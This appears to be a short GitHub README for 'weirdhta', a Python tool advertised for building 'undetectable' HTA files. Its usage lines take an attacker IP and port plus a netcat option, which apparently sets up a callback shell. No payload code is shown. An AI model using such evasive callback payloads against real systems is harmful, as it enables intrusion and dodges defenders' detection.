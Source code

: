 # weirdhta
A Python-based basic tool for creating undetectable hta file.


```
python3 weirdhta.py 10.10.10.10 4444
or
python3 weirdhta.py 10.10.10.10 4444 --nc (if normal one don't work)
```

### Screenshots
Running via browser:


![Script Image](https://i.imgur.com/mb8xvCq.png)

![Script Image](https://i.imgur.com/LCo3Ivb.png)

![Script Image](https://i.imgur.com/5DtxvKi.png)


Running via cli:

![](https://i.imgur.com/xYfALz2.gif)
